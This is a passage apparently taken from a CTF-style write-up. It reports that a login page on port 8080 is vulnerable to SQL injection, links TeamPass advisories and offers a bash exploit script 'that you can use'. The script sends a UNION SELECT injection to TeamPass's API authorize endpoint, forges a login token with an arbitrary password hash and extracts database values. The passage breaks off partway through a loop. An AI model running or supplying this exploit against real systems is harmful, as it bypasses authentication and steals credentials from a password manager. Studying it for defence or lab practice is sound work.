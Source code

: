 ## Port 8080

<img src="Img/image.jpg" alt="Error Image">

The login page is vulnarable to SQLi. 

## Resources:

- [Synk](https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612)
- [GitHub](https://github.com/advisories/GHSA-ppxm-q2h4-v7mm)

Following is the bash exploit that you can use.

```bash
if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
```